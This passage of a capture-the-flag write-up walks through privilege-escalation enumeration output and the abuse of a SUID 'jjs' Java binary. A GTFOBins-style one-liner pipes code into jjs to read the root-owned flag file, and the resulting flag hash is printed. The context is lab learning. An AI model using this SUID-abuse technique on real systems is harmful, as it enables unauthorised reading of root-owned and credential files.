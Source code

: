 From the `readme`:
* `The Red/Yellow color is used for identifing configurations that lead to PE (99% sure).`

So with that in mind, there are only a few `Red/Yellow` highlighted results (I cut a lot of noise):

```console
====================================( Users Information )=====================================
                                                                                                                                                                                                             
[+] Checking Pkexec policy
                                                                                                                        
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin

====================================( Interesting Files )=====================================
[+] SUID                                                                                                                
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands                    

/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

[+] SGID
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands                    

/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

```

The first one is the user AdminIdentities=unix-group:sudo;unix-group:**admin** with the bolded part being highlighted. Secondly both instances of the **jjs** binary `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs` were highlighted. Also in the same output, there is a link to [HackTricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands) which talks about sudo and suid -- which is pretty cool. 

To go off on a tangent about something I learned -- I never actually thought about how a user can change their own password whilst not having permissions to `/etc/shadow`. Well suid is [exactly how it happens](http://www.theunixschool.com/2010/06/what-is-suid.html), its a file permission that allows a user to execute a scropt as if the owner of ths script was the one executing it.

Using that same concept, and looking at the permissions on the `jjs` bin:

```console
$ ls -la /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

I should be able to execute stuff in `jjs` as `root`. [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/) already has some stuff pre-made to play with. So given that I can probably read\write data with it -- I am going to try to just read out the `root.txt` flag by modifying the commands on GTFOBins:

```console
$ echo 'var BufferedReader = Java.type("java.io.BufferedReader");
> var FileReader = Java.type("java.io.FileReader");
> var br = new BufferedReader(new FileReader("/root/root.txt"));
> 
> while ((line = br.readLine()) != null) { print(line); }' | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> 
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef79a7a2fbb01ea81688424e9ab15
jjs> $ 
```
